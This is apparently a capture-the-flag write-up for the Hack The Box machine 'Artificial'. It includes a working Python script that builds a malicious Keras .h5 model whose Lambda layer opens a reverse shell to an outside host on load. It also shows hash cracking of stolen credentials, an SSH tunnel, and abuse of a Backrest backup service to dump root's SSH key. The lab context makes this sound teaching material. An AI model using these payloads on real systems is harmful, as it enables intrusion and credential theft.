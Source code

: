 # Artificial : Writeup
### Difficulty: Easy
### OS: Linux

Lets start the attack proccess on the box. From HTB, we got the ip `10.10.11.74`.\
For starters, we begin with the basic scan: nmap\
![img](ss/nmap.png)\
From this we can see that there is an http server running on port 80 and that it did not follow redirect to `artificial.htb`.\
So let's add the artificial.htb to our `/etc/hosts` by running `sudo nano /etc/hosts`\
and writing the following at the end of the file.\
![img](ss/hosts.png)\
then save and exit with : ^O , enterkey and ^X .\
Now, when we visit the site, we will be in.\
![img](ss/site.png)\
TADAAAAA!\
Now.. back to the game... moving forward,\
we can see the options login,register etc... explore them and be sure to check the source codes of every pages. After many failed attempts of default credential checking and SQL injection checking on the login page, i decided to register an account.\
![img](ss/register.png)\
Then i logged in with those creds.\
![img](ss/login.png)\
Once logged in, we can see an upload page/section for modules and a requirements.txt which when opened had `tensorflow-cpu==2.13.1`\
And the upload format was .h5,\
![img](ss/upload.png)\
With some research, I found out that, Im looking at a malicious model **RCE vector**. So I basically need to craft a `.h5` file with a **Lambda layer** that runs arbitrary Python code when loaded.\
So lets write a `mmo.py` file like this
```python
import tensorflow as tf
from tensorflow import keras
from tensorflow.keras import layers
import tensorflow.keras.backend as K

def harmless_func(x):
    socket=__import__("socket");
    subprocess=__import__("subprocess");
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
    s.connect(("10.10.16.75",4444));
    subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())
    return x

inp = keras.Input(shape=(1,))
out = layers.Lambda(harmless_func)(inp)
model = keras.Model(inputs=inp, outputs=out)

model.save("ploit.h5")
print("[+] ploit.h5 created.")

```
Then run the following
```bash
pip install tensorflow==2.13.1
chmod +x mmo.py
python mmo.py
```

then we ll get an `.h5` file with the payload for a rev shell.\
All we have to do now is set up a listener and upload the .h5, click on `view predictions`\
![img](ss/h5upload.png)\
![img](ss/rev.png)\
now lets check who the user foothold is...\
I usually do this in 2 ways

- `ls /home` this will have the user home folder.
- `cat /etc/passwd | grep bash` this will print all users with a valid shell..

In most cases these are only root,user,app/xwiki/www-data etc.\
After checking we can see that the user we have to get in is `gael`. 


So lets check for creds first. And while i was searching, found users.db in instance.\
![img](ss/ls.png)\
so lets check it out for any creds. Before that we have to verify the sql type for it.\
![img](ss/sqlite.png)\
We can see that this is an SQlite db. so lets access it and check it out.\
![img](ss/usersdb.png)\
and with that we have a password for the user gael. Now we need to decrypt it. \
For that the most simple and reliable site is `crackstation.net`. It offers a huge collection of hashes and passwords.\
![img](ss/crackstation.png)\
and it didnt disappoint me this time either. We got the pass `mattp005numbertwo` for the user `gael`.\
Lets try to ssh into the system as gael. And we are successful\
![img](ss/sshgael.png)\
now we got the userflag: `user.txt` \
Our next goal is to obtain root. When i checked the id of gael, he was in the group `sysadm` which made me supicious.\
![img](ss/id.png)\
so, to find stuff by sysadm, i ran `find / -group sysadm 2>/dev/null`\
![img](ss/findsys.png)\
I copied the tar to `/tmp` and checked what file it was and found that it was actally just tar so I extracted it there.\
![img](ss/tar.png)\
While i was checking  the extracted files, i found my next gem, another cred\
![img](ss/config.png)\
`backrest_root` and `JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP`\
Here, we can see that it is a bcrypt, so lets decrypt it with hascat.\
The command i used is `hashcat -m 3200 backrest.hash /usr/share/wordlists/rockyou.txt`\
![img](ss/hascat.png)\
The bruteforcing only took 1 min or so.\
I obtained the password `!@#$%^`\
Now we need to look at the backrest program and find where it is being run on, so i ran 
- `ps aux | grep -i backrest` 
- `ss -tulpn 2>/dev/null | grep -i backrest || ss -tulpn 2>/dev/null | grep -E '127.0.0.1|localhost'`

![img](ss/psaux.png)\
When i ran `grep -R "http" backrest/ | less` I got this output.\
![img](ss/port9898.png)\
Which indicated that the backrest is running in the port `9898`.\
Lets start a tunnel to access it with ssh\
`ssh -L 9898:127.0.0.1:9898 gael@10.10.11.74`\
![img](ss/tunnel.png)\
With this we can now view it from out browser.\
We login with the cred we found earlier (backrest_root:!@#$%^) and tadaa! we are in.\
![img](ss/backrestui.png)\
When i looked into this, i figured out what we need to do.\
Since we are logged in as root, we need to create backup of `/root/.ssh/id_rsa` and print it into a file we can read.\
For that, we create a repo(any name or path).\
![img](ss/repo.png)\
First, we make a .`txt` file and give it permissions(file to recieve the id_rsa)\
![img](ss/mmtxt.png)\
And run the following commands in the repo
- `backup /root/.ssh/id_rsa` this backups the file to the repo. We should note the snapshot id.

![img](ss/backup.png)
- `dump -t /home/gael/mm.txt SNAPSHOTID /root/.ssh/id_rsa` this prints the content of `id_rsa` to the `mm.txt`.

![img](ss/dump.png)\
Now if we try to cat the mm.txt, we can see that it worked like a charm.\
![img](ss/catmm.png)\
Now on our attack machine, in another terminal, we create a duplicate `id_rsa` and write the contents of this into it.\
![img](ss/touchrsa.png)\
![img](ss/nanorsa.png)\
Now we change the permissions of the fake `id_rsa` and `ssh` into the box as `root` with \
`ssh root@10.10.11.74 -i id_rsa`\
![img](ss/rootssh.png)\
With that, we have obtained the root and we can cat the root flag now.

## Takeaways
- Always inspect uploaded files; malicious formats like `.h5` can lead to code execution.
- Databases and config files often store **plaintext creds** — check them early.
- Group memberships (`id`, `groups`) can reveal **hidden privilege paths**.
- Backup services (like Backrest) are juicy targets since they handle **sensitive files**.
- Tunneling (`ssh -L`) is key for reaching **internal-only services**.
- Don’t just look for SUID binaries — also hunt for **files owned by special groups**.
- Backups can leak **root access keys**, so always inspect them thoroughly.